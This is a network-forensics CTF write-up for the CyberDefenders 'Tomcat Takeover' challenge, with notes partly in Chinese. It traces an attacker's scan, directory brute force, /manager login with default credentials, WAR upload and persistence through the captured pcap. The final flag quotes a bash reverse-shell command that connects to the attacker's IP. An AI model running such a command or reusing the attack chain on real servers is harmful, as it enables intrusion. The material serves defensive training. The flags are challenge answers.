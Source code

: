 ```yaml
---
title: CyberDefender - Tomcat Takeover
tags: [CyberDefender, Network Forensics]

category: "Security/Practice/CyberDefender/Network Forensic"
---
```


# CyberDefender - Tomcat Takeover
<!-- more -->
Challenge: https://cyberdefenders.org/blueteam-ctf-challenges/135#nav-questions

:::spoiler TOC
[TOC]
:::

## Scenario
>  Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

## ==Q1==
> Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server? 

### Recon
直覺就是先看endpoint或conversation

### Exploit
可以看到==14.0.0.120==和內網的`10.0.0.112`，代表前者應該就是此次的外部攻擊者
![image](https://hackmd.io/_uploads/HkPNR5tUp.png)

:::spoiler Flag
Flag: `14.0.0.120`
:::

## ==Q2==
> Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated? 

### Recon
找到IP後丟到whois看detailed info

### Exploit
這一題問的是city，不是province，所以要填廣州，不是廣東
![image](https://hackmd.io/_uploads/HJakbiFIT.png)

:::spoiler Flag
Flag: `Guangzhou`
:::

## ==Q3==
> From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel? 

### Recon
隨便猜

:::spoiler Flag
Flag: `8080`
:::

## ==Q4==
> Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process? 

### Recon
這一題直接問chat-gpt，因為工具太多了，乾脆直接問AI最快

### Exploit
[ChatGPT Answer](https://chat.openai.com/share/72f8bf09-7c96-46c6-87a4-96b2e27e1f80)
> Dirb / Dirbuster / Gobuster / Dirsearch:
> * These tools are designed to brute-force directories and files on web servers by making requests with different wordlists.

:::spoiler Flag
Flag: `Gobuster`
:::

## ==Q5==
> Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover? 

### Recon
這一題是從tcp flow中的transport file，慢慢回推回去tcp stream再詳細看其中的packet，因為根據題目敘述，它應該是狂送一大堆封包去爆目錄，所以我們只要往大方向觀察就知道大概在哪一段

### Exploit
根據extracted file的內容，在#20649附近的stream已經可以拿到reverse shell了，代表從這邊往前可能是個不錯的選擇
![image](https://hackmd.io/_uploads/ByRj4ot8a.png)
果不其然，它的順序一定是先爆路徑，之後再想怎麼塞reverse shell，所以從下圖可以知道有一大堆的404 error request，跟著他的stream就可以看到最重要的那個sub-path
![image](https://hackmd.io/_uploads/H1YNVjKIa.png)
又題目說到該頁面是個admin panel，代表應該是個可以登入做authentication的地方，所以後續看到的第一個status code 200的/example就不是我們的目標，而是再更後面的==/manager==，因為它有login stage
![image](https://hackmd.io/_uploads/H1CjUsK8a.png)

:::spoiler Flag
Flag: `/manager`
:::

## ==Q6==
> Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization? 

### Recon
呈上題，拿到登入頁面當然就是要爆帳密，所以往後面的stream看可以發現有很多嘗試login的request，但都是401 Unauthorized

### Exploit
從下圖可以發現，往後刷幾個packets就有一個status 200的response，也就是attacker成功嘗試登入的response，從這邊把credential抓到base64 decode就會發現帳密
![image](https://hackmd.io/_uploads/HyM5DoYUT.png)

:::spoiler Flag
Flag: `admin:tomcat`
:::

## ==Q7==
> Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data? 

### Recon
往後看tcp stream會發現manager有upload的功能，所以attacker嘗試上傳一些東西，應該是一個zip file

### Exploit
![image](https://hackmd.io/_uploads/BJCtKjF8T.png)

:::spoiler Flag
Flag: `jxqozy.war`
:::

## ==Q8==
> Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence? 

### Recon
再往後看同一個stream的其他packet，發現server response 200，上傳成功後就可以直接進入reverse shell，接著就是看它的指令，發現他想要常駐在該台電腦上

### Exploit
![image](https://hackmd.io/_uploads/B12M5stLa.png)

:::spoiler Flag
Flag: `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`
:::